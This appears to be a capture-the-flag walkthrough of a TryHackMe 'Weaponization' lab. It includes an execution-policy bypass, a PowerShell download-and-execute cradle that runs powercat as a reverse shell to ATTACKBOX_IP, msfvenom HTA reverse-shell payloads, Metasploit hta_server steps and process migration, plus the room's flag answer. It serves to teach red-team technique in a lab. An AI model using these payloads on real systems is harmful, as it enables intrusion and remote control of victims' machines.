






# __Weaponization__
---
## __Task 6: PowerShell - PSH__

### __PowerShell (PSH)__

PowerShell is an object-oriented programming language executed from the Dynamic Language Runtime (DLR) in .NET with some exceptions for legacy uses. Check out the TryHackMe room, [Hacking with PowerShell for more information about PowerShell](/blog/room/hacking-with-powershell/).

Red teamers rely on PowerShell in performing various activities, including initial access, system enumerations, and many others. Let's start by creating a straightforward PowerShell script that prints "Welcome to the Weaponization Room!" as follows,

```powershell
Write-Output "Welcome to the Weaponization Room!"
```

Save the file as `thm.ps1`. With the `Write-Output`, we print the message "Welcome to the Weaponization Room!" to the command prompt. Now let's run it and see the result.

```powershell title="CMD"
C:\Users\thm\Desktop>powershell -File thm.ps1
File C:\Users\thm\Desktop\thm.ps1 cannot be loaded because running scripts is disabled on this system. For more
information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
    + CategoryInfo          : SecurityError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : UnauthorizedAccess

C:\Users\thm\Desktop>
```

### __Execution Policy__

PowerShell's execution policy is a __security option__ to protect the system from running malicious scripts. By default, Microsoft disables executing PowerShell scripts `.ps1` for security purposes. The PowerShell execution policy is set to `Restricted`, which means it permits individual commands but not run any scripts.
*[PowerShell]: PowerShell is a task automation and configuration management program from Microsoft, consisting of a command-line shell and the associated scripting language.

```powershell title="CMD"
PS C:\Users\thm> Get-ExecutionPolicy
Restricted
```

We can also easily change the PowerShell execution policy by running:

```powershell title="CMD"
PS C:\Users\thm\Desktop> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes [A] Yes to All [N] No [L] No to All [S] Suspend [?] Help (default is "N"): A
```

### __Bypass Execution Policy__

Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to `bypass` policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.

In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows,

```ps1 title="CMD"
C:\Users\thm\Desktop>powershell -ex bypass -File thm.ps1
Welcome to Weaponization Room!
```

Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is `powercat`. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.

```ps1 title="CMD"
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
```

Now, we need to set up a web server on that AttackBox to serve the `powercat.ps1` that will be downloaded and executed on the target machine. Next, change the directory to powercat and start listening on a port of your choice. In our case, we will be using port `8080`.

```ps1 title="Terminal"
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On the AttackBox, we need to listen on port `1337` using `nc` to receive the connection back from the victim.

```ps1 title="Terminal"
user@machine$ nc -lvp 1337
```

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,

```ps1 title="Terminal"
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Now that we have executed the command above, the victim machine downloads the `powercat.ps1` payload from our web server (on the AttackBox) and then executes it locally on the target using `cmd.exe` and sends a connection back to the AttackBox that is listening on port `1337`. After a couple of seconds, we should receive the connection call back:

```ps1 title="Terminal"
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
```

## __Task 7: Command And Control - (C2 Or C&C)__

This task introduces the basic concept of Command and Control (C2) frameworks used in Red team operations.



### __What is Command and Control (C2)?__

C2 frameworks are post-exploitation frameworks that allow red teamers to collaborate and control compromised machines. C2 is considered one of the most important tools for red teamers during offensive cyber operations. C2 frameworks provide fast and straightforward approaches to:
*[C2]: Command and Control (C2) Infrastructure are a set of programs used to communicate with a victim machine. This is comparable to a reverse shell, but is generally more advanced and often communicate via common network protocols, like HTTP, HTTPS and DNS.

- Generate various malicious payloads
- Enumerate the compromised machine/networks
- Perform privilege escalation and pivoting
- Lateral movement 
- And many others


Some popular C2 frameworks that we'll briefly highlight are Cobalt Strike, PowerShell Empire, Metasploit. Most of these frameworks aim to support a convenient environment to share and communicate between red team operations once the initial access is gained to a system.

### __Cobalt Strike__

Cobalt Strike is a commercial framework that focuses on Adversary Simulations and Red Team Operations. It is a combination of remote access tools, post-exploitation capabilities, and a unique reporting system. It provides an agent with advanced techniques to establish covert communications and perform various operations, including key-logging, files upload and download, VPN deployment, privilege escalation techniques, mimikatz, port scanning, and the most advanced lateral movements.

### __PowerShell Empire__

PowerShell Empire is an open-source framework that helps red team operators and pen testers collaborate across multiple servers using keys and shared passwords. It is an exploitation framework based on PowerShell and Python agents. PowerShell Empire focuses on client-side and post-exploitation of Windows and Active Directory environment. If you want to learn more about PowerShell Empire, we suggest trying out this room: [Empire](/blog/room/empire/).

### __Metasploit__

Metasploit is a widely used exploitation framework that offers various techniques and tools to perform hacking easily. It is an open-source framework and is considered one of the primary tools for pentesting and red team operations. Metasploit is one of the tools we use in this room to generate payload for our weaponization stage. If you want to learn more about the Metasploit framework, we suggest checking the [Metasploit module](/blog/room/metasploit).

Most of the C2 frameworks use the techniques mentioned in this room as preparation for the initial access stage. For more details about the C2 framework, we invite you to check the [Intro to C2](/blog/room/intro-c2/) room.

## __Task 8: Delivery Techniques__

### __Delivery Techniques__

Delivery techniques are one of the important factors for getting initial access. They have to look professional, legitimate, and convincing to the victim in order to follow through with the content.


### __Email Delivery__

It is a common method to use in order to send the payload by sending a phishing email with a link or attachment. For more info, visit [here](https://attack.mitre.org/techniques/T1566/001/). This method attaches a malicious file that could be the type we mentioned earlier. The goal is to convince the victim to visit a malicious website or download and run the malicious file to gain initial access to the victim's network or host.

The red teamers should have their own infrastructure for phishing purposes. Depending on the red team engagement requirement, it requires setting up various options within the email server, including DomainKeys Identified Mail (DKIM), Sender Policy Framework (SPF), and DNS Pointer (PTR) record.

The red teamers could also use third-party email services such as Google Gmail, Outlook, Yahoo, and others with good reputations.

Another interesting method would be to use a compromised email account within a company to send phishing emails within the company or to others. The compromised email could be hacked by phishing or by other techniques such as password spraying attacks.



### __Web Delivery__

Another method is hosting malicious payloads on a web server controlled by the red teamers. The web server has to follow the security guidelines such as a clean record and reputation of its domain name and TLS (Transport Layer Security) certificate. For more information, visit [here](https://attack.mitre.org/techniques/T1189/).

This method includes other techniques such as social engineering the victim to visit or download the malicious file. A URL shortener could be helpful when using this method.

In this method, other techniques can be combined and used. The attacker can take advantage of zero-day exploits such as exploiting vulnerable software like Java or browsers to use them in phishing emails or web delivery techniques to gain access to the victim machine.



### __USB Delivery__

This method requires the victim to plug in the malicious USB physically. This method could be effective and useful at conferences or events where the adversary can distribute the USB. For more information about USB delivery, visit [here](https://attack.mitre.org/techniques/T1091/).

Often, organizations establish strong policies such as disabling USB usage within their organization environment for security purposes. While other organizations allow it in the target environment.

Common USB attacks used to weaponize USB devices include [Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe) and [SBHarpoon](https://www.minitool.com/news/usbharpoon.html), charging USB cable, such as [O.MG Cable](https://shop.hak5.org/products/omg-cable).

## __Task 9: Practice Arena__

We have prepared a Windows 10 machine that runs a user simulation web app to execute your payloads or visit the malicious HTA links automatically. Deploy the attached machine and wait a couple of minutes until it's up and running. Then, visit the user simulator web application at `http://MACHINE_IP:8080/`.

Make sure to visit the user simulator web application from the AttackBox, or you can access it by connecting to the VPN.



The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.
*[HTA]: HTML Application (HTA) files are files that contain HTML, JScript, and or VBScript code that can be executed on client system. This can to lead to more dynamic applications or remote code execution on a client or victim.
__Note for Doc files__: the simulation used in the provided Windows 10 machine will open the malicious Word document and be closed within 90 seconds. In order to get longer prescience, you need to migrate as soon as you receive the connection back. 

In the Metasploit framework, we can inject our current process into another process on the victim machine using `migrate`. In our case, we need to migrate our current process, which is the MS word document, into another process to make the connection stable even if the MS word document is closed. The easiest way to do this is by using `migrate` post-module as follow,

```ps1 title="Terminal"
meterpreter > run post/windows/manage/migrate 

[*] Running module against DESKTOP-1AU6NT4
[*] Current server process: svchost.exe (3280)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 4960
[+] Successfully migrated into process 4960
```
In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. Once the web application runs your payload, you should receive a connect back. Answer the question below and prove your access by finding the flag once you receive a reverse shell.

For reference, you can use the MSFVenom Cheat Sheet on this [website](https://web.archive.org/web/20220607215637/https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/).

<span> 
    <span class="twemoji mdx-heart ans-wu">
        <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24"><path d="M14 20.408c-.492.308-.903.546-1.192.709-.153.086-.308.17-.463.252h-.002a.75.75 0 0 1-.686 0 16.709 16.709 0 0 1-.465-.252 31.147 31.147 0 0 1-4.803-3.34C3.8 15.572 1 12.331 1 8.513 1 5.052 3.829 2.5 6.736 2.5 9.03 2.5 10.881 3.726 12 5.605 13.12 3.726 14.97 2.5 17.264 2.5 20.17 2.5 23 5.052 23 8.514c0 3.818-2.801 7.06-5.389 9.262A31.146 31.146 0 0 1 14 20.408z"></path></svg>
    </span>
        <span class="content-wu ans-wu"> Answer the questions below </span>
</span>

!!! question "__What is the flag? Hint: Check the user desktop folder for the flag!__"

    === "Answer"
        ``` powershell
        THM{b4dbc2f16afdfe9579030a929b799719}
        ```
    === "Explain"
        We will use script from task 4, two way to solve:

        1. The first way:

            We will create file reverse shell from msfvenom by: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=443 -f hta-psh -o thm.hta`. And then send it to vim by `python3 -m http.server 8080`. 

            In attack machine, listen by `nc -lnvp 443`.
            ```ps1 title="Terminal"
            ┌──(kali㉿kali)-[~]
            └─$ nc -lvnp 443
            listening on [any] 443 ...
            connect to [10.18.80.57] from (UNKNOWN) [10.10.142.139] 49917
            Microsoft Windows [Version 10.0.14393]
            (c) 2016 Microsoft Corporation. All rights reserved.

            C:\app>ls -a
            ls -a
            'ls' is not recognized as an internal or external command,
            operable program or batch file.
            ``` 

            Because this is a reverse shell from windows, you have to use a script to work on windows (using ls like on linux won't work).

            Now, we will search the Desktop of each user in the machine, we will get the flag
        2. The first way:
            This is a way to help us use linux command on the victim's terminal.
            
            Step by step is the same Task 4:

            - Step 1: msfconsole -q
            - Step 2: use exploit/windows/misc/hta_server
            - Step 3: set LHOST ATTACKER_IP
            - Step 4: set LPORT ATTACKER_PORT_OPEN
            - Step 5: set SRVHOST ATTACKER_IP
            - Step 6: set payload windows/meterpreter/reverse_tcp
            - Step 7: exploit

                ```ps1 title="Terminal" hl_lines="16"
                msf6 > use exploit/windows/misc/hta_server
                [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
                msf6 exploit(windows/misc/hta_server) > set lhost 10.18.80.57
                lhost => 10.18.80.57
                msf6 exploit(windows/misc/hta_server) > set lport 443
                lport => 443
                msf6 exploit(windows/misc/hta_server) > set srvhost 10.18.80.57
                srvhost => 10.18.80.57
                msf6 exploit(windows/misc/hta_server) >  set payload windows/meterpreter/reverse_tcp
                payload => windows/meterpreter/reverse_tcp
                msf6 exploit(windows/misc/hta_server) > exploit
                [*] Exploit running as background job 0.
                [*] Exploit completed, but no session was created.

                [*] Started reverse TCP handler on 10.18.80.57:443 
                msf6 exploit(windows/misc/hta_server) > [*] Using URL: http://10.18.80.57:8080/hmMe6s.hta
                [*] Server started.
                ```
            - Step 8: We will notice a highlighted url like the above terminal, send it to the victim website
            
            - Step 9: Find sessions to work by: `session -i` command
            - Step 10: Get flag
                - Now, go back to the terminal with metasploit and we see that we have successfully connected to the windows shell
                